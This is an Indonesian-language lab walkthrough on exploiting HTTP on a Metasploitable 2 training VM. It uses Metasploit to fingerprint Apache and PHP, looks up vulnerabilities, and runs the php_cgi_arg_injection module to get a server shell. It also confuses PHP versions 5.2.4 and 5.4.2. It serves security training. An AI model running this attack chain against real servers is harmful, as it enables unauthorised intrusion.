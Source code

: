 # Exploit Port 80 (HTTP)
- Buka halaman web yang ada di server metasploitable 2 melalui browser dengan url `http://IP_Metasploitable2`

- Buka msfconsole di terminal
```sh
msfconsole
```

- Gunakan modul `auxiliary/scanner/http/http_version` untuk mengetahui web server yang digunakan di server
```sh
use auxiliary/scanner/http/http_version
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini semua parameter wajib sudah terisi secara default kecuali parameter `RHOSTS`
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

- Jalankan modul tersebut. Setelah dijalankan didapat informasi bahwa web server yang digunakan adalah apache versi `2.2.8` dan menggunakan PHP versi `5.2.4`
```sh
run
```

- Gunakan tool `searchploit` untuk mencari celah keamanan dari apache versi `2.2.8` dan filter berdasarkan keyword `php`. Disini terdapat informasi bahwa kelamahan PHP versi `5.4.2` adalah `cgi-bin Remote Code`
```sh
searchsploit apache 2.2.8 | grep php
```

- Buka website CVE https://cve.mitre.org/ dan pilih menu Search CVE List


- Ketikkan di kolom pencarian `php 5.4.2` lalu tekan submit



- Dari hasil pencarian juga didapat informasi bahwa php 5.4.2 rentan dengan CGI script


- Buka kembali tool metasploit dan lakukan pencarian modul exploit untuk php 5.4.2
```sh
search php 5.4.2
```

-gunakan modul `exploit/multi/http/php_cgi_arg_injection` yang terdapat di list nomor 1
```sh
use <nomor_modul>
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

- Jalankan modul tersebut
```sh
exploit
```

- Setelah dijalankan kita berhasil masuk ke shell server


